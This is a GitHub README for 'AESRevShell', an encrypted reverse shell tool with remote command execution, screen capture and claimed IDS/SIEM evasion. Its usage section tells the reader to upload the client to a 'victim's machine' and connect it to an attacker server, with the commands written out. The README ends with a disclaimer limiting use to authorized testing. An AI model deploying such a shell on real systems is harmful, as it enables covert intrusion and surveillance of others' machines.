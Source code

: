 # AESRevShell

## 🔐 Overview
AESRevShell is a **secure reverse shell tool** that utilizes:
- **AES-GCM** for authenticated encryption
- **ECDH** (Elliptic Curve Diffie-Hellman) for secure key exchange
- **HKDF** for key derivation

Ideal for **pentesting** and **security research** in monitored environments.

## ✨ Key Features
| Feature | Description |
|---------|-------------|
| **MITM Protection** | ECDH prevents interception |
| **Forward Secrecy** | Ephemeral session keys |
| **Command Execution** | Remote command execution with encrypted responses |
| **Encrypted Screenshots** | Captures and encrypts target screen |
| **Traffic Obfuscation** | Bypasses IDS/IPS/SIEM |
| **Cross-Platform** | Works on Linux/Windows/macOS |
| **No Key Sharing** | Automatic secure exchange |

```mermaid
sequenceDiagram
   participant Server
   participant Client
   Server->>Client: Public Key (ECDH)
   Client->>Server: Public Key (ECDH)
   Note right of Server: Derives shared secret
   Note left of Client: Derives shared secret
   Server->>Client: Encrypted (AES-GCM) Command
   Client->>Server: Encrypted Response
```

## **Demos**
![image](https://github.com/user-attachments/assets/6abbe459-e4bb-44e6-b773-d7a5b02266b0)
![image](https://github.com/user-attachments/assets/45f14aaf-d9d1-486f-b364-540a69095bbb)

## **Installation**
1. Install dependencies:
   ```bash
   sudo apt update && sudo apt install -y python3-pip
   python3 -m pip install --upgrade cryptography
   ```

2. Clone the repository:
   ```bash
   git clone https://github.com/OusH4x/AESRevShell
   cd AESRevShell
   ```

3. Make the scripts executable:
   ```bash
   chmod +x client.py server.py
   ```

## 🖥️ **Usage**

- Upload the '**client.py**' into victim's machine

#### **Server (attacker):**
Start the server (attacker) with the desired IP and port:
```bash
./server.py -i 0.0.0.0 -p 443
```

#### **Client (victim):**
Connect the client (victim) to the server:
```bash
./client.py -s SERVER_IP -p SERVER_PORT
```

### Special commands

- `screenshot` - Captures target screen
- `exit` - Terminates session
- `CTRL + L` - Clears console

## ⚠️ **Disclaimer**
This tool is intended for **educational purposes** and **authorized penetration testing** only. Do not use it for malicious purposes. The authors are not responsible for any misuse of this tool.

## 🤝 **Contributing**
Contributions are welcome! If you have any suggestions, improvements, or bug fixes, feel free to open an issue or submit a pull request.

## **Author**
- [OusH4x](https://github.com/OusH4x)
